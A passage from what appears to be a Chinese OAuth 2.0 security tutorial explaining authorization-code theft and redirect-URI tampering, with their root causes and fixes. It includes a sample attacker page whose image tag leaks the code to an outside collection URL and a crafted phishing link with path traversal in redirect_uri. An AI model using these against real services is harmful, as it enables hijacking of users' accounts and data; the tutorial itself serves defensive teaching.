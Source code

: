 <p>　　图5 授权码失窃攻击过程</p>

<p>　　<strong>这时问题的根源就在于两点：</strong></p>

<p>　　授权服务在进行授权码校验的时候，没有校验 app_id_B；</p>

<p>　　软件 B（也就是极客时间）使用过一次 codeB 的值之后，授权服务没有删除这个 codeB；</p>

<p>　　看到这里，通过校验 app_id_B，并删除掉使用过一次的授权码及其对应的访问令牌，就可以从根本上来杜绝授权码失窃带来的危害了。</p>

<p>　　说到这里，你不禁要问了，授权码到底是怎么失窃的呢？接下来，我要介绍的就是授权码失窃的可能的方法之一，这也是 OAuth 2.0 中因重定向 URI 校验方法不当而遭受到的一种危害。这种安全攻击类型，就是重定向 URI 被篡改。</p>

<h2 id="重定向-uri-被篡改">重定向 URI 被篡改</h2>

<p>　　有的时候，授权服务提供方并没有对第三方软件的回调 URI 做完整性要求和完整性校验。比如，第三软件 B 极客时间的详细回调 URI 是<code>https://time.geekbang.org/callback</code>，那么在完整性校验缺失的情况下，只要以<code>https://time.geekbang.org</code>开始的回调 URI 地址，都会被认为是合法的。</p>

<p>　　此时，如果黑客在<code>https://time.geekbang.org/page/</code>下，创建了一个页面 <strong>hacker.html</strong>。这个页面的内容可以很简单，其目的就是让请求能够抵达攻击者的服务。</p>

<pre><code class="language-java">&lt;html&gt;
	&lt;img src =&quot;https://clientA.com/catch&quot;&gt;
&lt;/html&gt;
</code></pre>

<p>　　好了，我们继续看下接下来的攻击流程：</p>

<p>　　<img src="assets/04d71e6a8d32fe8b516db7e7424bf141-20220724223155-3jgo5gq.png" alt="" /></p>

<p>　　图6 重定向URI被篡改的攻击过程</p>

<p>　　首先，黑客将构造的攻击页面放到对应的 hacker.html 上，也就是<code>https://time.geekbang.org/page/hacker.html</code>上 ，同时构造出了一个新的重定向 URI，即<code>https://time.geekbang.org/page/welcome/back.html../hacker.html</code>。</p>

<p>　　然后，黑客利用一些钓鱼手段诱导用户，去点击下面的这个地址：</p>

<pre><code class="language-shell">https://oauth-server.com/auth?respons_type=code&amp;client_id=CLIENTID&amp;redirect_uri=https://time.geekbang.org/page/welcome/back.html../hacker.html
</code></pre>

<p>　　这样当授权服务做出响应进行重定向请求的时候，授权码 code 就返回到了 hacker.html 这个页面上。</p>

<p>　　最后，黑客在<code>https://clientA.com/catch</code>页面上，解析 Referrer 头部就会得到用户的授权码，继而就可以像授权码失窃的场景中那样去换取访问令牌了。</p>

<p>　　看到这里我们就知道了，如果授权服务要求的回调 URI 是<code>https://time.geekbang.org/callback</code>，并做了回调 URI 的完整性校验，那么被篡改之后的回调地址<code>https://time.geekbang.org/page/welcome/back.html../hacker.html</code>就不会被授权服务去发起重定向请求。</p>

<p>　　严格来讲，要发生这样的漏洞问题，条件还是比较苛刻的。从图 6 的重定向 URI 被篡改的流程中，也可以看到，只要我们在授权服务验证第三方软件的请求时做了签名校验，那么攻击者在只拿到授权码 code 的情况下，仍然无法获取访问令牌，因为第三方软件只有通过访问令牌才能够访问用户的数据。</p>

<p>　　但是，如果这些防范安全风险的规范建议你通通都没有遵守，那就是在给攻击者“大显身手”的机会，让你的应用软件以及用户遭受损失。</p>

<h2 id="总结">总结</h2>

<p>　　好了，以上就是今天的主要内容了。我们一起学习了 OAuth 2.0 相关的常见又比较隐蔽的 5 种安全问题，包括 CSRF 攻击、XSS 攻击、水平越权、授权码失窃、重定向 URI 被篡改。更多关于 OAuth 2.0 安全方面的内容，你也可以去翻阅《OAuth 2 in Action》这本书。</p>
